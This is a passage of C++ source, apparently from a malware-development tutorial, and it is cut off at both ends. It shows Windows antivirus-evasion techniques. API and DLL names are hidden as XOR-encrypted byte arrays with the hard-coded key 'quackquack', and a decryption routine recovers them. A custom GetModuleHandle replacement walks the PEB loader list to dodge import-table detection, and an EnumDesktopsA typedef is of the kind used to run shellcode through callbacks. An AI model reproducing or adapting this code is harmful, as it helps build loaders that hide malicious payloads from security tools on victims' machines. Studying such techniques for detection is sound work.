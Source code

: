 ```cpp
  int result = 0;
  if (StrStrW(mystr, substr) != NULL) {
    result = 1;
  }

  return result;
}

typedef BOOL (CALLBACK * EnumDesktopsA_t)(
  HWINSTA          hwinsta,
  DESKTOPENUMPROCA lpEnumFunc,
  LPARAM           lParam
);

LPVOID (WINAPI * pva)(LPVOID lpAddress, SIZE_T dwSize, 
DWORD flAllocationType, DWORD flProtect);

unsigned char cva[] = 
{ 0x27, 0x1c, 0x13, 0x17, 0x1e, 0x10, 0x19, 0x20, 0xf, 0x7, 0x1e, 0x16 };
unsigned char udll[] = 
{ 0x4, 0x6, 0x4, 0x11, 0x58, 0x43, 0x5b, 0x5, 0xf, 0x7 };
unsigned char kdll[] = 
{ 0x1a, 0x10, 0x13, 0xd, 0xe, 0x1d, 0x46, 0x53, 0x4d, 0xf, 0x1d, 0x19 };

char secretKey[] = "quackquack";

// encryption / decryption XOR function
void d(char *buffer, size_t bufferLength, char *key, size_t keyLength) {
  int keyIndex = 0;
  for (int i = 0; i < bufferLength; i++) {
    if (keyIndex == keyLength - 1) keyIndex = 0;
    buffer[i] = buffer[i] ^ key[keyIndex];
    keyIndex++;
  }
}

// custom implementation
HMODULE myGM(LPCWSTR lModuleName) {

  // obtaining the offset of PPEB from the beginning of TEB
  PEB* pPeb = (PEB*)__readgsqword(0x60);

  // obtaining the address of the head node in a linked list 
  // which represents all the models that are loaded into the process.
  PEB_LDR_DATA* Ldr = pPeb->Ldr;
  LIST_ENTRY* ModuleList = &Ldr->InMemoryOrderModuleList; 

  // iterating to the next node. this will be our starting point.
  LIST_ENTRY* pStartListEntry = ModuleList->Flink;

  // iterating through the linked list.
  WCHAR mystr[MAX_PATH] = { 0 };
  WCHAR substr[MAX_PATH] = { 0 };
  for (LIST_ENTRY* pListEntry = pStartListEntry; pListEntry != ModuleList; 
  pListEntry = pListEntry->Flink) {

    // getting the address of current 
    // LDR_DATA_TABLE_ENTRY (which represents the DLL).
    LDR_DATA_TABLE_ENTRY* pEntry = (LDR_DATA_TABLE_ENTRY*)
    ((BYTE*)pListEntry - sizeof(LIST_ENTRY));

    // checking if this is the DLL we are looking for
    memset(mystr, 0, MAX_PATH * sizeof(WCHAR));
```